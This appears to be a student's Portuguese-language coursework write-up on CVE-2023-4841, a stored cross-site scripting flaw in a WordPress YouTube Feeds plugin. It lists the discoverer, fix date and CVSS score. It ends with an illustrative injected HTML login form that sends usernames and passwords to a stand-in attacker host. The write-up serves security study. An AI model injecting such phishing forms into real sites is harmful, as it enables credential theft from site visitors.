 
# Trabalho realizado nas Semanas #2 e #3

## Identificação:

- CVE-2023-4841
- Store Cross-Site Scripting. 
- Os sistemas afetados pela vulnerabilidade são o Feeds do Youtube para plugins de Wordpress através do shortcode em versões até, e incluíndo, 2.1.

## Catalogação

- Descoberto por Lana Codes
- Resolvido por Craig at Smash Balloon em 12/09/2023
- Este CVE foi publicado por Wordfence 
- CVSS de 6.4 

## Exploit

- Cross-site scripting que ocorre quando não é feita a devida neutralização do user input
- Permite executar código e aceder a recursos de um domínio diferente
- Roubo de informação pessoal como por exemplo passwords


## Ataques

- Não foi registado nenhum ataque que toma-se proveito desta vulnerabilidade
- Se o utilizador aceder a um link com o script Welcome.php é gerado o seguinte HTML que é enviado para o browser do utilizador:
 
```html
<div class="header"> Welcome, <div id="stealPassword"> Please Login:

<form name="input" action="attack.example.com/stealPassword.php" method="post">
Username: <input type="text" name="username" /><br/>
Password: <input type="password" name="password" /><br/>
<input type="submit" value="Login" />
</form>

</div></div>
``` 



